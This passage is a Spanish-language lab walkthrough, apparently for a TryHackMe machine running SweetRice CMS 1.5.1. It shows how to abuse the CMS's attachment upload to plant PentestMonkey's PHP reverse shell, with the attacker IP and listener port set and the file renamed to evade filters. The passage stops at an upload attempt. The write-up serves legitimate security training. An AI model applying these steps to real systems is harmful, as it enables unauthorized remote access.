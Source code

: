 Continuando con la búsqueda de una ruta de ejecución de código remoto (RCE), hemos identificado la sección Post > List Create como un posible vector de ataque.

<img width="998" height="873" alt="en esta seccion del panel podremos subir un script de reverse" src="https://github.com/user-attachments/assets/4b9e779a-72c8-488b-971b-b1b1b0a09fd7" />


🖼️ Análisis de la Función de Subida

Al hacer clic en Post y luego en List Create, vemos la interfaz para crear una nueva entrada de blog o contenido. En la parte inferior de la página, hay una sección crucial:

Attachment: Add File ⬅️ ¡Este es el punto clave!

Esta función permite adjuntar archivos a la publicación, lo que significa que el CMS debe tener una lógica de subida y almacenamiento de archivos. 

Si el CMS no valida correctamente la extensión o el contenido de los archivos, podemos subir un script de shell inverso en PHP.


## 😈 Paso 14: Configuración del Payload PHP Reverse Shell

Para obtener acceso a la máquina, necesitamos un script que, al ejecutarse en el servidor, establezca una conexión de vuelta a nuestra máquina atacante. 

El estándar de oro para esto es el PHP Reverse Shell de PentestMonkey.

💾 Descarga y Modificación del Script

<img width="968" height="232" alt="utilizamos el de pentestmonkey" src="https://github.com/user-attachments/assets/0f1f2eff-ebcc-4ae8-a269-4e885478436e" />

Descarga: Obtenemos el script php-reverse-shell.php de PentestMonkey.

Configuración: Es crucial modificar las variables $ip y $port dentro del archivo para que coincidan con la configuración de nuestro listener:

<img width="639" height="239" alt="modificamos parametros del script" src="https://github.com/user-attachments/assets/f2ef2803-a9ba-49ba-a815-0a59d1aa9abe" />

$ip: Debe ser la IP de nuestra máquina Kali (la IP en la VPN de TryHackMe, en el ejemplo, 10.0.2.15).

$port: Debe ser el puerto que abriremos para escuchar la conexión (en el ejemplo, 9001).

PHP

$ip = '10.0.2.15';   // IP de la máquina atacante (Kali)
$port = 9001;        // Puerto de escucha en Kali

Renombramiento del Script

Para eludir posibles filtros básicos de archivos, renombraremos el script. Aunque el CMS SweetRice v1.5.1 en este contexto no suele tener validaciones estrictas, es una buena práctica.

````
Bash
mv php-reverse-shell.php shell.php
````


## 🛑 Paso 15: Intento de Subida de Shell y Detección de Filtro
